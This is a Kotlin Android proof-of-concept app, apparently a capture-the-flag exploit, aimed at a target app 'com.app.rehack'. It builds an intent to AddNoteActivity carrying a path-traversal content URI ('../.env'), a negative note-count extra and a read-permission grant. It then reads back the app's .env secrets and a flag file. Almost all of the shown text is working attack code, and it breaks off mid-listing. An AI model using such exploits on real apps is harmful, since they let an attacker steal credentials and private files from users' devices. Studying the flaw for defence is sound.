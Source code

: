 ```kotlin
import javax.crypto.spec.IvParameterSpec
import javax.crypto.spec.SecretKeySpec
import javax.xml.parsers.DocumentBuilderFactory

class MainActivity : ComponentActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        enableEdgeToEdge()
        setContent {
            TestingPocTheme {
                Scaffold(modifier = Modifier.fillMaxSize()) { innerPadding ->
                    val env1 = remember { mutableStateOf<String?>(null) }
                    val flag = remember { mutableStateOf<ByteArray?>(null) }

                    val startForResult = rememberLauncherForActivityResult(
                        contract = ActivityResultContracts.StartActivityForResult()
                    ) { result: ActivityResult ->
                        val uri = result.data?.data
                        Log.d("IntentDump", "Received result: $result")
                        Log.d("IntentDump", "URI: $uri")

                        uri?.let {
                            try {
                                val content = contentResolver.openInputStream(it)?.use { input ->
                                    input.bufferedReader().readText()
                                }
                                env1.value = content
                            } catch (e: Exception) {
                                Log.e("IntentDump", "Error reading file", e)
                                env1.value = "Error reading .env content"
                            }
                        }
                    }

                    val startForResult2 = rememberLauncherForActivityResult(
                        contract = ActivityResultContracts.StartActivityForResult()
                    ) { result: ActivityResult ->
                        val uri = result.data?.data
                        Log.d("IntentDump", "Received result: $result")
                        Log.d("IntentDump", "URI: $uri")

                        uri?.let {
                            try {
                                val content = contentResolver.openInputStream(it)?.use { input ->
                                    input.readBytes()
                                }
                                flag.value = content
                            } catch (e: Exception) {
                                Log.e("IntentDump", "Error reading file", e)
                            }
                        }
                    }

                    LaunchedEffect(Unit) {
                        val intent = Intent().apply {
                            setClassName(
                                "com.app.rehack",
                                "com.app.rehack.AddNoteActivity"
                            )
                            setData(Uri.parse("content://com.app.rehack/../.env"))
                            putExtra("total_notes", -1)
                            flags = Intent.FLAG_GRANT_READ_URI_PERMISSION
                        }
```